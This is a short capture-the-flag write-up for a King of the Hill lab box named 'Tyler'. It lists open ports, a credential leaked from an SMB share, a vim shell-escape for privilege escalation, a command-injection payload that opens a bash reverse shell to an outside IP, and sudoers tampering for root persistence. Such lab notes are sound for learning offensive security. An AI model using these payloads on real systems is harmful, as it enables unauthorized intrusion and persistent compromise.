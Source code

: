 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports -<br/>

```
22
80
139
445
3306
5000
8080
```

![image](/home/h00dy/Pictures/Screenshots/2022-07-26_21-55.png)

##### Initial access -<br/> 

![image](image.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/10.8.91.66/8888 0>&1`

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](image.png)
